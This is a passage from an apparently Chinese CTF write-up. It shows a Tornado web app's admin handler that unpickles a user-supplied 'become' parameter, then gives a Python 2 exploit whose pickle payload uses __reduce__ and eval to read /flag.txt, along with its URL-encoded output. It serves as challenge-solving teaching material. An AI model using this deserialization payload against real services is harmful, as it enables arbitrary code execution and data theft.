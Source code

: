 去下载`"/static/asd1f654e683wq/www.zip"`

翻一下代码, 在`admin.py`中找到了可利用的`pickle`反序列化漏洞:

```python
import tornado.web
from sshop.base import BaseHandler
import pickle
import urllib


class AdminHandler(BaseHandler):
    @tornado.web.authenticated
    def get(self, *args, **kwargs):
        if self.current_user == "admin":
            return self.render('form.html', res='This is Black Technology!', member=0)
        else:
            return self.render('no_ass.html')

    @tornado.web.authenticated
    def post(self, *args, **kwargs):
        try:
            become = self.get_argument('become')
            p = pickle.loads(urllib.unquote(become))
            return self.render('form.html', res=p, member=1)
        except:
            return self.render('form.html', res='This is Black Technology!', member=0)
```

这里对传进来的参数`become`用`unquote`解码之后, 使用`pickle.loads`来进行反序列化

这么这里就需要在`become`中构建序列化的字符串: (这里需要使用python2)

```python
import pickle
import urllib

class payload(object):
    def __reduce__(self):
       return (eval, ("open('/flag.txt','r').read()",))

a = pickle.dumps(payload())
print a
a = urllib.quote(a)
print a

"""
输出:
c__builtin__
eval
p0
(S"open('/flag.txt','r').read()"
p1
tp2
Rp3
.
c__builtin__%0Aeval%0Ap0%0A%28S%22open%28%27/flag.txt%27%2C%27r%27%29.read%28%29%22%0Ap1%0Atp2%0ARp3%0A.
"""
```

